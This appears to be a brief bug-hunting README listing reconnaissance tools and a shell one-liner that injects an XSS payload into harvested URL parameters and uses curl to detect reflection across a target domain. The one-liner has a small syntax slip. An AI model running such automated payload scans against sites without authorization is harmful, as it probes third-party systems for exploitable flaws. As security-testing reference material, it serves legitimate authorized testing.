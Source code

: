 <h2>Some hunting scripts</h2>

## Tools:
https://github.com/tomnomnom/gf
https://github.com/tomnomnom/waybackurls
https://github.com/lc/gau
https://github.com/tomnomnom/qsreplace
https://github.com/projectdiscovery/httpx
https://github.com/tomnomnom/httprobe
https://github.com/tomnomnom/anew

## Find and testing XSS

```bash
python3 paramspider.py -d domain.com
```

### Output file has stored on output/domain.com.txt

```bash
cat jora.com.txt | gf xss | qsreplace '"><script>confirm(1)</script>' | while read host do; do curl --silent --insecure $host | grep -qs "<script>confirm(1)" && echo "[*] XSS HERE $host"; done
```
